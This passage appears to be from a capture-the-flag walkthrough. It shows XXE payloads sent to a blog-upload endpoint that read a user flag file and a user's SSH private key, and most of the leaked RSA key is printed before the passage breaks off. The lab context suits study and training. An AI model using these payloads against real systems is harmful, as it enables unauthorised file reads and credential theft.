 I can get the `user.txt` with this method:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/roosa/user.txt"> ]>
<xml>
	<Author>Cooper</Author>
	<Subject>Subject</Subject>
	<Content>&xxe;</Content>
</xml>

...

PROCESSED BLOGPOST: 
  Author: Cooper
 Subject: Subject
 Content: c5808e1643e801d40f09ed87cdecc67b

 URL for later reference: /uploads/fee.xml
 File path: /home/roosa/deploy/src
```
> Result of `user.txt`: c5808e1643e801d40f09ed87cdecc67b.

Knowing that I can retrieve documents this way and also knowing that the machine has the port 22 open running OpenSSH, I assume that I can check for the private key of the user to log in through that route.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<xml>
	<Author>Cooper</Author>
	<Subject>Subject</Subject>
	<Content>&xxe;</Content>
</xml>

...


 PROCESSED BLOGPOST: 
  Author: Cooper
 Subject: Subject
 Content: -----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
```